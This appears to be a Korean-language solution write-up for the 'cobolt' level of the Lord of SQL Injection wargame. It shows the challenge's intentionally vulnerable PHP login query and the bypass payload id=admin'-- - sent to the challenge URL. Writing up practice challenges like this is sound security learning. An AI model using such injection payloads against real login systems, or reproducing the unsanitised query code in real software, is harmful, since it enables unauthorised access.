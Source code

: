 Lord of SQL Injection No.2 - cobolt
...
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>";
  highlight_file(__FILE__);
?>
...
위 코드에서 알 수 있는 것
preg_match로 인해 .과()이 id와 pw에 들어가 있으면 No Hack ~_~ 라고 뜨며 문제풀이에 실패하는 것을 알 수있다.
그리고 $result['id']에 admin이 들어가 있으면 문제풀이에 성공하는 것을 알 수 있다.(9번째줄)

문제 풀이법
1) id값에 admin을 넣어준다.
http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin'-- -
싱글쿼터로 admin에서 받는값을 끝내주고 뒤에 pw를 입력하지 않고 뚫기 위해 주석처리를 해준다.
